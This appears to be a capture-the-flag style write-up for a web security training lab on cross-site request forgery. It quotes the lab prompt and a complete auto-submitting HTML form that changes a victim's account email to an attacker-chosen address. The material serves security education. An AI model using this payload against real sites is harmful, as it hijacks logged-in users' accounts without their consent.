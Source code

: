 # Cross-site Request Forgery (CSRF)

### CSRF vulnerability with no defenses

!!! question
    This lab's email change functionality is vulnerable to CSRF.

    To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

    You can log in to your own account using the following credentials: `wiener:peter`

This first one was easy... following the instructions in the documentation on CSRF, you simply craft an evil payload something similar to the following:

```html
<html>
  <body>
    <form action="https://acbd1fc91ebd63dfc0dc1e3100420089.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
